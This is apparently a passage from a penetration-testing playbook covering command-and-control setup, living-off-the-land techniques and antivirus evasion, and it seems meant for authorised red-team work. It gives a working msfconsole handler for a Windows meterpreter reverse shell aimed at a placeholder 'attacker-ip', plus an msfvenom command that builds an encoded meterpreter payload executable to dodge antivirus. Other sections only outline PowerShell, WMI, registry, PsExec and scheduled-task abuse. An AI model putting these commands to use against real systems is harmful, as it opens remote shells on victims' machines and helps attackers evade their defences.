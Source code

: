 ### 6.2 Command and Control Setup
```bash
# Metasploit listener setup
msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set LHOST attacker-ip; set LPORT 4444; exploit"

# Alternative C2 frameworks
# Cobalt Strike, Empire, or other approved C2 tools
```

## Phase 7: Living Off the Land Techniques

### 7.1 Fileless Attacks
```bash
# PowerShell-based attacks
# Use legitimate PowerShell functionality for malicious purposes

# WMI exploitation
# Leverage Windows Management Instrumentation

# Registry manipulation
# Use registry for persistence and execution
```

### 7.2 Legitimate Tool Abuse
```bash
# PSExec for lateral movement
# Use legitimate administrative tools

# Task scheduler abuse
# Schedule malicious tasks using schtasks

# Service manipulation
# Create or modify services for persistence
```

## Phase 8: Evasion Techniques

### 8.1 Antivirus Evasion
```bash
# Payload encoding
msfvenom -p windows/meterpreter/reverse_tcp LHOST=attacker-ip LPORT=4444 -e x86/shikata_ga_nai -i 10 -f exe -o encoded-payload.exe

# File signature modification
# Modify file headers and signatures to avoid detection

# Process injection
# Inject payloads into legitimate processes
```
